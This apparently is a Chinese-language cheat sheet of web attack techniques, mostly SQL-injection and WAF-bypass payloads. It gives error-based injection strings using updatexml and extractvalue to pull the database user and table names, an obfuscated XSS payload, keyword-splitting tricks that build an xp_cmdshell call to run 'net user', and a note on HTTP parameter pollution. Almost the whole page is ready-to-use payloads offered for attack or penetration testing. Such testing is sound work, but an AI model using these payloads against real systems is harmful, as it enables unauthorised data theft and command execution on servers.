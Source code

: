 ##### 生僻函数

```sql
Select UpdateXML( ‘ <script x=_></script> ’,’/script/@x/’,’src=//xxxxxx.com’);
?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))
SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));
?id=1 and extractvalue(1, concat(0x5c, (select table_name frominformation_schema.tables limit 1)));
```

##### 特殊符号

```
1.使用反引号`，例如 select `version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用
2.神奇的"-+."，select+id-1+1.from users; 
“+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤
3.@符号，select@^1.from users; 
@用于变量定义如@*var_name*，一个@表示用户定义，@@表示系统变量
4.Mysql function() as xxx 也可不用 as 和空格 select-count(id)test from users;
//绕过空格限制
可见，使用这些字符的确是能做很多事，也证实了那句老话，只有想不到，没有做不到本人搜罗了部分可能发挥大作用的字符(未包括'、*、/等在内，考虑到前面已经出现较多次了)：`、~、!、@、%、()、[]、.、-、+ 、|、%00
举例：
关键字拆分：‘se’+’lec’+’t’
%S%E%L%E%C%T 1
1.aspx?id=1;EXEC(‘ma’+'ster..x’+'p_cm’+'dsh’+'ell ”net user”’)!和()：' or --+2=- -!!!'2
id=1+(UnI)(oN)+(SeL)(EcT) //另 Access 中,”[]”用于表和列,”()”用于数值也可以做分隔
本节最后在给出一些和这些字符多少有点关系的操作符供参考：
\>>, <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN使用这些"特殊符号"实现绕过是一件很细微的事情，一方面各家数据库对有效符号的处理是不一样的，另一方面得充分了解这些符号的特性和使用方法才能作为绕过手段
```

##### http参数控制

###### HPP

在此我称之为玄学。太玄学了

秘籍《重复参数污染！》在不同的web服务器对重复参数污染有不同的处理方式。

例如

`http://localhost\index.php?id=1&id=2&id=3`

| ?a=            | nginx+php                | apache+php               |
| -------------- | ------------------------ | ------------------------ |
| ?a=1&a=2&a=3   | a = string(1) "3"        | a = string(1) “3”        |
| ?a=1;2+3/*/054 | string(11) "1;2 3/*/054" | string(11) "1;2 3/*/054" |

尴尬。。。。。。。。

直接上第三方图



![image-20220726160637713](http://imgs.maobasix.cn/i/2023/03/13/640f0de50844d.png)
